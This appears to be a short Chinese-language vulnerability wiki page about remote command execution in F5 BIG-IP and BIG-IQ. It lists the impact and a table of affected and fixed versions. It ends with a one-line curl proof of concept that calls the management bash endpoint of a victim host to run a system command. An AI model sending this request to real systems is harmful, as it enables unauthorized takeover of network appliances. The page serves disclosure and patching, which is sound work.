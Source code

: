 <languages   />

<translate>

漏洞危害
--------

</translate>

<translate>

-   執行任意系統命令
-   創建或刪除文件
-   禁用服務

</translate>

<translate>

影響版本
--------

</translate>

    BIG-IP (LTM, AAM, Advanced WAF, AFM, Analytics, APM, ASM, DDHD, DNS, FPS, GTM, Link Controller, PEM, SSLO)  16.x    16.0.0 – 16.0.1     16.0.1.1
    BIG-IP (LTM, AAM, Advanced WAF, AFM, Analytics, APM, ASM, DDHD, DNS, FPS, GTM, Link Controller, PEM, SSLO)  15.x    15.1.0 – 15.1.2     15.1.2.1
    BIG-IP (LTM, AAM, Advanced WAF, AFM, Analytics, APM, ASM, DDHD, DNS, FPS, GTM, Link Controller, PEM, SSLO)  14.x    14.1.0 – 14.1.3     14.1.4
    BIG-IP (LTM, AAM, Advanced WAF, AFM, Analytics, APM, ASM, DDHD, DNS, FPS, GTM, Link Controller, PEM, SSLO)  13.x    13.1.0 – 13.1.3     13.1.3.6
    BIG-IP (LTM, AAM, Advanced WAF, AFM, Analytics, APM, ASM, DDHD, DNS, FPS, GTM, Link Controller, PEM, SSLO)  12.x    12.1.0 – 12.1.5     12.1.5.3*
    BIG-IP (LTM, AAM, Advanced WAF, AFM, Analytics, APM, ASM, DDHD, DNS, FPS, GTM, Link Controller, PEM, SSLO)  11.x    None    Not applicable
    BIG-IQ Centralized Management   8.x     None    8.0.0
    BIG-IQ Centralized Management   7.x     7.1.0, 7.0.0    7.1.0.3, 7.0.0.2
    BIG-IQ Centralized Management   6.x     6.0.0 – 6.1.0   None

POC
---

    curl -su admin: -H "Content-Type: application/json" http://[victimIP]/mgmt/tm/util/bash -d '{"command":"run","utilCmdArgs":"-c id"}'